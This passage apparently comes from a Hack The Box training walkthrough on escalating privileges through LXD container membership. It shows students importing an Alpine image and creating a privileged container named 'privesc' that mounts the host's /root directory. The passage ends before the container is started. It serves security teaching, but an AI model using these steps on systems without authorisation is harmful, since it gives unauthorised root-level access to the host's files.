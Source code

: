 
Upon connecting, students need to inspect the contents of the ContainerImages directory:

Code: shell

```shell
cd ContainerImages/
ls
```

```
htb-student@ubuntu:~$ cd ContainerImages/
htb-student@ubuntu:~/ContainerImages$ ls

alpine-v3.18-x86_64-20230607_1234.tar.gz
```

Discovering the `alpine-v3.18-x86_64-20230607_1234.tar.gz` file, students need to import the image:

Code: shell

```shell
lxc image import ./alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpine-container 
lxc image list
```

```
htb-student@ubuntu:~/ContainerImages$ lxc image import ./alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpine-container 

Image imported with fingerprint: b14f17d61b9d2997ebe1d3620fbfb2e48773678c186c2294c073e2122c41a485

htb-student@ubuntu:~/ContainerImages$ lxc image list

+------------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|      ALIAS       | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+------------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine-container | b14f17d61b9d | no     | alpine v3.18 (20230607_12:34) | x86_64       | CONTAINER | 3.62MB | Jun 20, 2023 at 5:22pm (UTC) |
+------------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

After verifying that the image has been successfully imported, students need to initiate the image and configure it with the `security.privileged=true` flag. Additionally, students need to mount the `/root` directory from the host machine to `/mnt/root` inside the container, making the host's `/root` directory accessible within the container.

Code: shell

```shell
lxc init alpine-container privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/root path=/mnt/root recursive=true
```
